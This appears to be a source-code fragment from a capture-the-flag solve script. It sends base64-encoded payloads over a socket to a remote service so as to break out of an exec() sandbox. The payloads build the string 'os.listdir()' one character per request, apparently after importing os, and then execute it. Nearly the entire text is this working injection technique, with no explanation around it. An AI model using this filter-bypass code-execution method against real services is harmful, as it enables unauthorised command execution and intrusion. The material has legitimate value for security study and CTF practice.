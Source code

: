 ```py



con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGE7e2F9Jyl9") # exec(a)
time.sleep(1)
print(con.recv(4096).decode())

print("global os;import os")


### os.listdir()


con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJvIicpfQ==") # a = "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZCInKX0=") # a += "d"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

print("os.listdir()")

```